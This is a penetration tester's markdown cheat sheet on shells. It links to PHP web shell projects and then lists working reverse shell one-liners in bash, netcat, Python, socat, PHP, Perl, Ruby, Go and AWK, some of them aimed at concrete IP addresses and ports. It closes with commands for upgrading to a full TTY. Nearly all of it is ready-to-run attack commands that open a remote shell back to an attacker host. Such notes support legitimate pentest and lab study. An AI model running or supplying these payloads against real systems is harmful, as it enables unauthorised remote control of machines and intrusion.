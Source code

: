 # Shells 
- [ ] Web shell 
- [ ] Reverse shell commands 
- [ ] Upgrading shells 

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
Also Java: Reverse shells cheat sheet    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 
[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 


## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

